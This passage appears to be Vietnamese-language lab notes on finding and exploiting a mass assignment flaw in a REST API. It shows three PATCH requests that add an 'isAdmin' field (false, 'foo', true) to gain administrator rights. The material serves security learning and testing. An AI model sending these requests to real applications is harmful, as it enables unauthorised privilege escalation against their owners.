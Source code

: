 
Việc này **gợi ý rằng các tham số ẩn `id` và `isAdmin` có thể đang được ánh xạ vào đối tượng người dùng nội bộ**, cùng với các tham số hợp lệ `username` và `email`.

→ Do đó, nếu **thử thêm `"isAdmin": true` vào PATCH request**, bạn **có thể chiếm được quyền quản trị** nếu ứng dụng **không có cơ chế kiểm soát hợp lệ**.

### Kiểm tra lỗ hổng Mass Assignment

Để kiểm tra xem bạn có thể **chỉnh sửa giá trị tham số `isAdmin`** hay không, hãy thử gửi các request PATCH sau:

### 1. Gửi với giá trị hợp lệ `false`

```json
PATCH /api/users/123
Content-Type: application/json

{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": false
}
```
→ **Mục đích**: Xem ứng dụng có phản hồi khác với bình thường không.

### 2. Gửi với giá trị không hợp lệ "foo"
```json
PATCH /api/users/123
Content-Type: application/json

{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": "foo"
}
```


→ Nếu **ứng dụng phản hồi khác biệt khi giá trị không hợp lệ**,  nhưng **không phản hồi gì đặc biệt khi giá trị hợp lệ**, điều này **gợi ý rằng tham số `isAdmin` đang ảnh hưởng đến logic xử lý**  → có thể **cập nhật được**.

### 3. Gửi với giá trị true để khai thác
```json
PATCH /api/users/123
Content-Type: application/json

{
    "username": "wiener",
    "email": "wiener@example.com",
    "isAdmin": true
}
```
- Nếu ứng dụng không xác thực và lọc giá trị `isAdmin` đúng cách, thì người dùng `wiener` có thể được **cấp quyền admin** trái phép.
